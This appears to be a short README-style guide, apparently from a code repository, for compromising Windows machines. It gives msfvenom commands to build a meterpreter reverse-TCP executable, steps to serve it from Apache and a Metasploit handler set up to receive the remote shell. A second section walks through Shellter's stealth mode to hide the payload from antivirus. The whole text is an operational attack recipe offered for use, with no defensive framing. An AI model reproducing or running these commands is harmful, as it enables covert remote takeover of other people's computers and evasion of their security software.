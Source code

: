 ## Instructions:
  ### On the host machine (linux): // Note: (change 192.168.0.24 to your ip, and 8080 to the port you desire)
   1.  msfvenom -p windows/meterpreter/reverse_tcp -a x86 –platform windows LHOST=192.168.0.24 LPORT=8080 -f exe > shell.exe   
   2.  cp shell.exe /var/www/html
   3.  OPTIONAL go to Avoiding AntiVirus
   4.  service apache2 start
   5.  msfconsole
   6.  use exploit/multi/handler
   7.  set PAYLOAD windows/meterpreter/reverse_tcp
   8.  set LHOST 192.168.0.24
   9.  set LPORT 8080
   10.  exploit
   
   ### Avoiding Anti Virus
    1. sudo apt-get install shellter [ You might be required to install wine32 first (dpkg --add-architecture i386 && apt-get update && apt-get install wine32) ]
    2. shellter
    3. A (to select AUTO)
    4. /var/www/htmlEnter path to your executable
    5. Y (to enter stealth mode)
    6. Enter LHOST and LPORT
